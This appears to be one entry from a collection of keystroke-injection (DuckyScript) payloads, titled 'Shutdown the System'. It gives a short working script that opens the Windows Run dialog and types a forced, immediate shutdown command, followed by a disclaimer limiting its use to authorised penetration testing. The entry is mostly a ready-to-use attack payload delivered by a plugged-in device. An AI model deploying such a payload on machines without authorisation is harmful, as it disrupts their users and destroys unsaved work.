 # Shutdown the System

Shuts down the computer immediately using the ```shutdown``` command.

```
DELAY 500
GUI r
DELAY 200
STRING shutdown /s /f /t 0
ENTER
```

> Disclaimer: This script is for educational purposes and should only be used in environments where you have explicit authorization to perform penetration testing. Always follow ethical guidelines and laws governing cybersecurity practices.